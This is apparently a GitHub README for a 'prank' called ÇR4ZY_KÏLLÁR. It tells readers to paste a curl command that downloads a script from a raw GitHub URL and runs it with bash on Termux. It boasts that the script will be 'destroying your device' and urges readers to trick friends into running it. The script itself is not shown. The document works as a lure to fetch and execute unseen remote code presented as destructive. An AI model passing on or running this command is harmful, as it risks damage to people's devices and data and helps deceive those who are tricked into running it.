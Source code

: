 # ÇR4ZY_KÏLLÁR
This is A Prank, Just Paste This command 

```bash
curl -L -o ~/CRAZY_KILLER.sh https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R/main/%C3%87R4ZY_K%C3%8FLL%C3%81R_DOWNLOAD && bash ~/CRAZY_KILLER.sh
```

And you will see ÇR4ZY_KÏLLÁR destroying your device😈 XD.
Share to your Friend, tell them "paste this command on termux, it's very cool" XD.


first time making this, Sorry if it's not perfect or ugly.
Run on Termux!
